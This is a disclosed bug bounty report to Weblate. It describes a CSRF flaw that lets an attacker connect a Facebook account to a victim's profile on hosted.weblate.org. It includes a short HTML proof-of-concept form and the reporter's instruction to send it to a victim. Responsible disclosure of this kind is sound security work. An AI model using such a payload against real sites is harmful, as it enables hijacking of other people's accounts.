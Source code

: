 # CSRF to Connect third party Account

## Report Details
- **Report ID**: 225100
- **URL**: https://hackerone.com/reports/225100
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2017-04-30T11:38:21.605Z
- **Disclosed**: 2017-05-02T13:24:35.255Z

## Reporter
- **Username**: idiablos
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: weblate

## Vulnerability Information
Hello Weblate Security Team,

I have found security vulnerability in your website :[ https://hosted.weblate.org

Vulnerable URL :- https://hosted.weblate.org/accounts/profile/#auth

Vulnerability :- CSRF to Connect FACEBOOK Account

CARF Code :- [save as [name].html and send it to victim 

<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://hosted.weblate.org/accounts/login/facebook/">
      <input type="hidden" name="next" value="&#47;accounts&#47;profile&#47;&#35;auth" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>


Full Youtube Video POC  :- https://youtu.be/tIVh8Pa5oWU

Expecting to prompt reply :)

Regards,
Pratik Panchal

## Attachments
No attachments
